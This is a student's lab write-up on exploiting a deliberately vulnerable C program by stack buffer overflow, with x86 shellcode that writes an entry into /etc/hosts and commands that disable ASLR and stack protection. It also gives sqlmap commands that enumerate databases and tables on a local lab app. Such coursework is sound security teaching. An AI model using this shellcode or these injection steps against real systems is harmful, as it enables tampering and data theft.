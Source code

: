 # Lab 1, 22110074, Nguyen Le Phuong Thu, INSE_02FIE

## Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
 char buffer[16];
 strcpy(buffer,argv[1]);
 return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

### 1. Fire up docker-compose to run the docker conteiner `docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` and then change working directory to the folder have this file

![image](/img/run%20docker.png)

### 2. Compile with nasm and then link with ld to generate executable file

![image](/img/compile.png)

### 3. Dump to `test.o` to show information of this file

`objdump -d test.o`
![image](/img/objdump.png)

### 4. Get the hex string of shellcode

Run the script `for i in $(objdump -d test | grep "^ " | cut -f2);do echo -n '\x'$i; done; echo`
![image](/img/hex%20string.png)

### 5. Prepare for the lab environment

- Turn off OS's address space layout randomization `sudo sysctl -w kernel.randomize_va_space=0`
- Compile program with options to defeat stack protecting mechanism and code execution on stack `gcc lab1.c -o lab1.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`
![image](/img/prepare.png)

### 6. Stack frame 


![image](/img/stack.png)

> We have the byte of the buffer in this code is smaller than the byte of hex string of shellcode. So I use environment variables to exploit

### 7. Add shellcode to environment and get env address with C code

![image](/img/env.png)

### 8. Debug with gdb `gdb -q ./lab1.out`

![image](/img/gdb.png)

### 9. Find the address of env

`find /home/seed/seclabs/buffer-overflow/lab1`
![image](/img/find.png)

### 10. Run program in gdb with injecting argument

![image](/img/run.png)

## Task 2: Attack on the database of Vulnerable App from SQLi lab

- Start docker container from SQLi.
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

### 1. Change working directory to folder of SQli

![image](/img/sqli.png)

### 2. Fire up the docker-compose to create the docker-container set for this lab

![image](/img/build%20sqli.png)



### 3. Install sqlmap
![image](/img/sqlmap.png)


**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
To retrieve information about all available databases, use
'''
sqlmap -u "http://localhost:3128/vulnerable_page.php?id=1" --dbs
'''

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
To list tables in a specific database
'''
sqlmap -u "http://localhost:3128/vulnerable_page.php?id=1" -D database_name --tables
'''

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
